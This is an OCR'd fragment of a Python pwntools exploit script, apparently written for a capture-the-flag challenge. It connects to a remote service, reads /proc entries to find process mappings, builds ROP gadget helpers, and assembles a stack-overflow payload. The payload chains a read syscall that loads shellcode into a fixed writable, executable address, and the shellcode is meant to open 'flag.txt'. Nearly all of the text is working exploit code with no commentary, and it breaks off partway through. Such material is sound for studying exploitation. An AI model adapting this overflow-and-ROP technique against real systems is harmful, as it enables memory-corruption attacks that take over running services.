 ```python
    m = [int(x) for x in m if not any(e in x for e in (string.ascii_letters + string.punctuation))]
    return m

def getMapFiles(pid):
    m = getDir("/proc/{}/map_files".format(pid))
    return m

def createHang():
    s = remote(HOST, PORT)
    return s

def setRDI(num):
    return p64(gadgets['pop_rdi']) + p64(num)

def setRAX(num):
    return p64(gadgets['pop_rax']) + p64(num)

def setRSI(num):
    return p64(gadgets['pop_rsi']) + p64(num)

def setRDX(num):
    return p64(gadgets['pop_rdx']) + p64(num)

def readBuf(addr, length, fd=4, skipfd=False):
    payload = ""
    payload += setRAX(0)
    if not skipfd:
        payload += setRDI(fd)
    payload += setRSI(addr)
    payload += setRDX(length)
    payload += p64(gadgets['syscall'])
    return payload

def main():
    # Get pid of the program
    p = getProcesses()
    s = createHang()
    p1 = getProcesses()
    diff = [int(x) for x in p1 if x not in p]
    print diff
    for pid in diff:
        m = getMapFiles(pid)
        print m

    # After obtaining the libc base address, calculate all the gadget addresses
    for k in gadgets.keys():
        gadgets[k] += libc_base
        print k, hex(gadgets[k])
    
    # Building shellcode
    filename = "flag.txt"
    shellcode = filename + '\x00'
    shellcode += asm(open('shellcode.asm').read())

    # Trigger the overflow
    payload = 'A' * (320 - 8)
    payload += p64(0)
    payload += 'B' * 8 # rbp
    # ROP chain to read shellcode to a RWX memory segment
    payload += readBuf(0x601000, len(shellcode) + 1) # read file name
    payload += p64(0x601000 + len(filename + "\x00") + 1)

    print len(payload) # The length must not exceed 0x200
```